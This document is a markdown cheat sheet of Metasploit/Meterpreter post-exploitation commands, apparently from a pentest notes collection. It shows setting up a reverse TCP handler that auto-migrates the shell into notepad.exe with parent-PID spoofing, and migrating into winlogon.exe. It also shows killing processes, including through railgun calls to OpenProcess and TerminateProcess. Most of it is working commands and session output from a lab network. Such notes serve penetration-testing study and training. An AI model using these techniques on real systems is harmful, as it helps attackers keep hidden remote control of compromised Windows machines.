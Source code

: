 # 04 - Process Manipulation

Search Tag(s): #metasploit-framework #command-and-control #interactive-shell

## 4.1 - Migrate to Another Process

* Setting up listener to auto migrate to another process

```
msf exploit(multi/handler) > set lhost 10.0.2.4

msf exploit(multi/handler) > set lport 4444

msf exploit(multi/handler) > set autorunscript post/windows/manage/migrate name=notepad.exe

msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.2.4:4444 
[*] Sending stage (200262 bytes) to 10.0.2.15
[*] Session ID 4 (10.0.2.4:4444 -> 10.0.2.15:49840 ) processing AutoRunScript 'post/windows/manage/migrate name=notepad.exe'
[*] Running module against DEFALT
[*] Current server process: powershell.exe (1136)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1280
[+] Successfully migrated into process 1280
[*] Meterpreter session 4 opened (10.0.2.4:4444 -> 10.0.2.15:49840 ) at 2022-05-15 15:35:51 -0400
```

* Migrate to another process

```
meterpreter > migrate -h
Usage: migrate <<pid> | -P <pid> | -N <name>> [-t timeout]

Migrates the server instance to another process.
NOTE: Any open channels or other dynamic state will be lost.

meterpreter > migrate <pid>

meterpreter > migrate -N <process_name>

meterpreter > migrate -N winlogon.exe
[*] Migrating from 4980 to 412...
[*] Migration completed successfully.
```

## 4.2 - Get Process ID

```
meterpreter > getpid
Current pid: 1280
```

## 4.3 - Terminate Process

### 4.3.1 - Process ID

Terminate process ID.

```
meterpreter > kill <pid>
```

We'll create a new handle by retrieving the process ID. Then define a process handle `_['return']` after the conditions has been met. Terminate by calling the railgun function with zero exit code as an indication the process has been killed.

```
meterpreter > irb

>> client.railgun.kernel32.OpenProcess("PROCESS_TERMINATE", false, <pid>)

>> process_handle = _['return'] -> define a process handle

>> client.railgun.kernel32.TerminateProcess(process_handle, 0)
```

### 4.3.1 - Process Name

```
meterpreter > pkill <process_name>
```

---
## References

- [Pentestlab Blog: Parent PID Spoofing](https://pentestlab.blog/2020/02/24/parent-pid-spoofing/)